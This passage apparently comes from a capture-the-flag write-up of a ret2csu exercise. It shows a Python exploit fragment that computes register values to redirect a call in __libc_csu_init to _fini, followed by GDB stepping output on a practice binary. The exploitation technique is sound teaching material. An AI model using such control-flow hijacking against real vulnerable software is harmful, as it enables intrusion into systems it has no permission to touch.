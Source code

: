 ### Back to 2nd terminal
- Update Python script:
```python
[...]
    rbx_val = 0x400640  # taken from program's state prior to `call qword [r12 + rbx*8]` instruction
    fini_ptr = 0x600e48 # target value
    r12_val = 0x10000000000000000 + fini_ptr - (rbx_val*8) # 0x10000000000600e48-(0x400640*8)==0xfffffffffe5fdc48
[...]
```
- Save script and exit, then run Python script and write to our FIFO:
> $ `python get_flag.py > my_fifo`

### Back to 1st terminal again
- Having written to the FIFO using our updated Python script, GDB will now have continued execution of the program and reached our breakpoint just before the `ret` instruction
- Keep stepping through using `si` until immediately **before** the `call QWORD PTR [r12+rbx*8]` instruction:
```
=> 0x400689 <__libc_csu_init+73>:	call   QWORD PTR [r12+rbx*8]
   0x40068d <__libc_csu_init+77>:	add    rbx,0x1
[...]
rbx            0x400640            4195904
rcx            0x7fe4b96111e7      140620339417575
rdx            0xd00df00dd00df00d  -3454841397007486963
rsi            0xcafebabecafebabe  -3819410105351357762
rdi            0xdeadbeef          3735928559
[...]
r12            0xfffffffffe5fdc48  -27272120
r13            0xdeadbeefdeadbeef  -2401053088876216593
r14            0xcafebabecafebabe  -3819410105351357762
r15            0xd00df00dd00df00d  -3454841397007486963
rip            0x4006b4            0x4006b4 <_fini>
[...]
```
- Notice how rdx, rsi, rbx, r12 are set up as expected, hopefully the next step will step into the `_fini` function:
> (gdb) `si`  
```
=> 0x4006b4 <_fini>:	sub    rsp,0x8
   0x4006b8 <_fini+4>:	add    rsp,0x8
   0x4006bc <_fini+8>:	ret
[...]
0x00000000004006b4 in _fini ()
```
- It worked! After `_fini` function finishes executing, it should return back to `__libc_csu_init` immediately **after** the `call QWORD PTR [r12+rbx*8]` instruction, so keep stepping:
> (gdb) `si`  
```
[...]
=> 0x40068d <__libc_csu_init+77>:	add    rbx,0x1
   0x400691 <__libc_csu_init+81>:	cmp    rbp,rbx
   0x400694 <__libc_csu_init+84>:	jne    0x400680 <__libc_csu_init+64>
   0x400696 <__libc_csu_init+86>:	add    rsp,0x8
   0x40069a <__libc_csu_init+90>:	pop    rbx
   0x40069b <__libc_csu_init+91>:	pop    rbp
   0x40069c <__libc_csu_init+92>:	pop    r12
   0x40069e <__libc_csu_init+94>:	pop    r13
   0x4006a0 <__libc_csu_init+96>:	pop    r14
   0x4006a2 <__libc_csu_init+98>:	pop    r15
   0x4006a4 <__libc_csu_init+100>:	ret    
   0x4006a5:	nop
0x7fff4c14ad08:	0x00000000004006a3	0xdeadbeefdeadbeef
```